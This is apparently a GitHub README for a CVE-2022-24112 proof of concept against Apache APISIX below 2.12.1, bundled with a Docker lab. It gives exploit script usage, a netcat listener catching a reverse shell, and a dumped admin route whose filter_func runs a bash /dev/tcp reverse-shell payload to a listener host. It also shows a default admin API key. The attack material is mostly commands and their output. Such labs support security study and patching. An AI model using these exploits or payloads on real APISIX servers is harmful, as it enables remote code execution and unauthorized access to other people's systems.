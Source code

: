 # cve-2022-24112

Apache APISIX < 2.12.1 Remote Code Execution and Docker Lab

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/twseptian](https://github.com/twseptian) |
| Url      | [https://github.com/twseptian/cve-2022-24112](https://github.com/twseptian/cve-2022-24112)                                               |
| Stars    | 5                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* apache-apisix* cve-2022-24112* proof-of-concept* remote-code-execution

</details>

## Readme


# Apache APISIX < 2.12.1 Remote Code Execution and Docker Lab
Let's clone using gitclone this repository, then we can navigate to `apisix-docker/examples`. In this `docker-compose.yml` file, we already change into `image: apache/apisix:2.12.0-alpine`, because the vulnerability in this version, then let's install using docker compose. 

QuickStart via docker-compose,we can start all modules with docker-compose.
```bash
$ cd example
$ docker-compose -p docker-apisix up -d
``` 

Let's use this command `docker ps -a` to make sure the docker images already runs in the background. after this is done, we can access the API with a simple `curl`

```bash
$ curl 'http://127.0.0.1:9080/apisix/admin/routes?api_key=edd1c9f034335f136f87ad84b625c8f1' -i
HTTP/1.1 200 OK
Date: Sun, 20 Mar 2022 15:49:17 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Server: APISIX/2.12.0
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: *
Access-Control-Max-Age: 3600

{"count":0,"action":"get","node":{"key":"\/apisix\/routes","nodes":{},"dir":true}}
```

- `poc.py`. exploit usage `python3 50829.py http://127.0.0.1:9080/ 172.18.0.1 4444`
```bash
$ python3 50829.py http://127.0.0.1:9080/ 172.18.0.1 4444

                                   .     ,                                                                          
        _.._ * __*\./ ___  _ \./._ | _ *-+-                                                                         
       (_][_)|_) |/'\     (/,/'\[_)|(_)| |                                                                          
          |                     |                                                                                   
                                                                                                                    
                (CVE-2022-24112)                                                                                    
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }
 
```
reverse shell connection
```bash
$ nc -lvnp 4444                       
listening on [any] 4444 ...
connect to [172.18.0.1] from (UNKNOWN) [172.19.0.8] 52334
id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
pwd
/usr/local/apisix
ls -la
total 52
drwxr-xr-x    1 root     root          4096 Mar 20 15:48 .
drwxr-xr-x    1 root     root          4096 Jan 28 09:06 ..
drwxr-xr-x   13 root     root          4096 Jan 28 09:07 apisix
drwx------    2 nobody   root          4096 Mar 20 15:48 client_body_temp
drwxr-xr-x    1 root     root          4096 Mar 20 15:48 conf
drwxr-xr-x    5 root     root          4096 Jan 28 09:07 deps
drwx------    2 nobody   root          4096 Mar 20 15:48 fastcgi_temp
drwxr-xr-x    2 1000     1000          4096 Mar 20 15:48 logs
drwx------    2 nobody   root          4096 Mar 20 15:48 proxy_temp
drwx------    2 nobody   root          4096 Mar 20 15:48 scgi_temp
drwx------    2 nobody   root          4096 Mar 20 15:48 uwsgi_temp
```

- `poc2.py`. exploit usage `python3 poc2.py -h`
```bash
$ python3 poc2.py -h                                        

    >> Apache APISIX 2.12.1 - Remote Code Execution (RCE)
    >> by twseptian

usage: poc2.py [-h] -t TARGET_IP -p TARGET_PORT -L LOCALHOST -P LOCALPORT

Apache APISIX 2.12.1 - Remote Code Execution (RCE)

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_IP, --rhost TARGET_IP
                        Target IP
  -p TARGET_PORT, --rport TARGET_PORT
                        Target Port
  -L LOCALHOST, --lhost LOCALHOST
                        Localhost/Local IP
  -P LOCALPORT, --lport LOCALPORT
                        Localport
```

exploit usage `python3 poc2.py -t 127.0.0.1 -p 9080 -L 172.18.0.1 -P 4444`
```bash                       
$ python3 poc2.py -t 127.0.0.1 -p 9080 -L 172.18.0.1 -P 4444

    >> Apache APISIX 2.12.1 - Remote Code Execution (RCE)
    >> by twseptian

[!] Take RCE

listening on [any] 4444 ...
connect to [172.18.0.1] from (UNKNOWN) [172.19.0.8] 52372
id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
pwd
/usr/local/apisix
ls -la
total 52
drwxr-xr-x    1 root     root          4096 Mar 20 15:48 .
drwxr-xr-x    1 root     root          4096 Jan 28 09:06 ..
drwxr-xr-x   13 root     root          4096 Jan 28 09:07 apisix
drwx------    2 nobody   root          4096 Mar 20 15:48 client_body_temp
drwxr-xr-x    1 root     root          4096 Mar 20 15:48 conf
drwxr-xr-x    5 root     root          4096 Jan 28 09:07 deps
drwx------    2 nobody   root          4096 Mar 20 15:48 fastcgi_temp
drwxr-xr-x    2 1000     1000          4096 Mar 20 15:48 logs
drwx------    2 nobody   root          4096 Mar 20 15:48 proxy_temp
drwx------    2 nobody   root          4096 Mar 20 15:48 scgi_temp
drwx------    2 nobody   root          4096 Mar 20 15:48 uwsgi_temp
```
```bash
$ curl -s 'http://127.0.0.1:9080/apisix/admin/routes?api_key=edd1c9f034335f136f87ad84b625c8f1' | jq
{
  "count": 1,
  "action": "get",
  "node": {
    "key": "/apisix/routes",
    "nodes": [
      {
        "modifiedIndex": 161,
        "value": {
          "priority": 0,
          "uri": "/rms/fzxewh",
          "status": 1,
          "upstream": {
            "hash_on": "vars",
            "pass_host": "pass",
            "nodes": {
              "schmidt-schaefer.com": 1
            },
            "type": "roundrobin",
            "scheme": "http"
          },
          "id": "index",
          "create_time": 1647791428,
          "filter_func": "function(vars) os.execute('bash -c \\\"0<&160-;exec 160<>/dev/tcp/172.18.0.1/4444;/bin/sh <&160 >&160 2>&160\\\"'); return true end",
          "update_time": 1647799320,
          "name": "wthtzv"
        },
        "key": "/apisix/routes/index",
        "createdIndex": 16
      }
    ],
    "dir": true
  }
}
```
## Credits
- [Apache APISIX Docker - Manual deploy apisix via docker](https://github.com/apache/apisix-docker)
- [Apache APISIX < 2.12.1 Remote Code Execution](https://kavigihan.medium.com/apache-apisix-2-12-1-remote-code-execution-5f920b22ccff)
- [Exploit-DB - Apache APISIX 2.12.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50829)
- [GitHub - Apache APISIX Remote Code Execution (CVE-2022-24112) Exploit](https://github.com/M4xSec/Apache-APISIX-CVE-2022-24112)



## Get the content

```
git clone https://github.com/twseptian/cve-2022-24112
cd cve-2022-24112
```

{% embed url="https://github.com/twseptian/cve-2022-24112" %}

<figure><img src="https://avatars.githubusercontent.com/u/9025301?v=4" alt=""><figcaption><p>twseptian</p></figcaption></figure>
